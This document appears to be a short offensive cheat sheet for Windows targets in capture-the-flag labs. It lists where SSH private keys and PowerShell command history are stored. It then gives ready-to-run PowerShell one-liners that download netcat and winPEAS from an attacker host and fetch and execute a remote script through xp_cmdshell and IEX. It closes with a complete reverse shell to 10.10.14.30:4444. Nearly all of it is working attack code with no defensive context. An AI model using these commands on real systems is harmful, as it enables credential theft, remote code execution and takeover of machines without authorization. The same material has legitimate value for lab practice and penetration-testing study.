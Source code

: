 ### File and directory
#### ssh key location
`file:///C:/Users/user/.ssh/id_rsa`
#### File may contain password information
`C:\Users\user\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine
 ConsoleHost_history.txt`


### Command
#### Download file in powershell
```powershell
IWR -useBasicParsing http://10.10.14.21:8000/nc.exe -o nc.exe
```
```powershell
wget http://10.10.14.30/winpeasx64.exe -outfile winpeasx64.exe
```

#### Execute command from remote file
```powershell
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.30/shell.ps1\");"
```

#### Perpare reverse shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.30",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```